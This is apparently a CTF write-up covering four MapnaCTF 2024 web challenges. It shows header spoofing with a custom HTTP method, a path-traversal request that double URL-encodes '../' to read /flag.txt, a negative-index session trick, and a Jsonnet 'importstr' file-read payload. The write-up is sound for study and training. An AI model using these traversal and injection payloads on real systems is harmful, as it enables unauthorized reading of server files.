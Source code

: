 ```yaml
---
title: MapnaCTF 2024 web challenges
date: 2024-01-21
tags: web
categories: MapnaCTF 2024
---
```


solved by {% person hartmannsyg %}

## Flag Holding

We are given a website:
```
http://18.184.219.56:8080/
```

![You are not coming from "http://flagland.internal/".](/static/MapnaCTF2024/flag_holding.png)

We then set the Referer header to http://flagland.internal/:

```http
Referer: http://flagland.internal/
```
```html
	<div class="msg" style="">
		Unspecified "secret".	</div>
```

We create a url parameter called `secret`: http://18.184.219.56:8080?secret=

```html
<div class="msg" style="">
		Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->	</div>
```

the protocol is http, so http://18.184.219.56:8080?secret=http with the header gives us:

```
	<div class="msg" style="">
		Sorry we don't have "GET" here but we might have other things like "FLAG".	</div>
```

We have to use a custom http method `FLAG` instead of `GET`:

```html
	<div class="msg" style="">
		MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}	</div>
```

(btw I used https://hoppscotch.io/ for all this since that way I don't have to code out things)

## Novel Reader

We see that there is a `/read` function:

```http
GET /api/read/public/A-Happy-Tale.txt HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en
Connection: keep-alive
Cookie: session=eyJjcmVkaXQiOjEwMCwid29yZHNfYmFsYW5jZSI6MX0.Za000Q.zcBtJvYM3vXoJBf_o6j8gd_g9n4
Host: 3.64.250.135:9000
Referer: http://3.64.250.135:9000/
Sec-GPC: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

We want to read /flag.txt, but our `/read` call must evaluate to a `/public` directory. So instead of doing `http://3.64.250.135:9000/api/read/public/../../../../flag.txt`, we can *double url encode* the `../` to become `%252e%252e%252f`

```http
GET /api/read/public/%252e%252e%252f%252e%252e%252fflag.txt HTTP/1.1
```
```json
{
  "msg": "MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!",
  "success": true
}
```

## Novel Reader 2

We can use the same double url encoding trick to read `A-Secret-Tale.txt`, but we seem to not have enough words, even when we charge the number of words to 11 (remember to update the Cookie header if you are writing code to send the request)

```json
{
  "msg": "Once a upon time there was a flag. The flag was... Charge your account to unlock more of the novel!",
  "success": true
}
```

We look at the specific line of code that is blocking us from accessing the flag:

{% ccb lang:py gutter1:43-50 caption:main.py highlight:7 %}
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
{% endccb %}

Normally, what this would do is trim the `buf` to only include words `0` to `session['words_balance']`.

However, python allows for negative indexing as well, where `-1` represents the last element:

```py
>>> a='0123456789'
>>> a[0:-1]
'012345678'
```

So if we deduct and deduct until our `words_balance` is `-1`, we get:

![Words Balance: -1](/static/MapnaCTF2024/novel_reader.png)

```json
{
  "msg": "Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!",
  "success": true
}
```

(remember to update the Cookie header if you are writing code to send the request)

## Advanced JSON Cutifier

> My homework was to write a JSON beautifier. Just Indenting JSON files was too boring that's why I decided to add some features to my project using a popular (More than 1k stars on GitHub!! ) library to make my project more exciting.
> **Important: You can't read any file other than /flag.txt on the remote environment.**

![](/static/MapnaCTF2024/advanced_json_cutifier.png)

we see that `1335+2` gets evaluated to `1337`. So it is probably something like a template injection? After a bit of fiddling (actually like half a day worth of fiddling), I tried:
```json
{"wow so advanced!!": import "os"}
```
and got:
```json
RUNTIME ERROR: couldn't open import "os": no match locally or in the Jsonnet library paths
	ctf:1:23-34	object <anonymous>
	Field "wow so advanced!!"	
	During manifestation	
```
We *finally* got the name of the library (Jsonnet). I then searched up how to read file contents using Jsonnet and got this github issue: https://github.com/google/jsonnet/issues/238

In there, they said something like:
```
std.assertEqual(importstr "lib/some_file.txt", "Hello World!\n") && 
```

So I tried importstr
```json
{"wow so advanced!!": importstr "flag.txt"}
```
and got
```
{
   "wow so advanced!!": "MAPNA{5uch-4-u53ful-f347ur3-a23f98d}\n\n"
}
```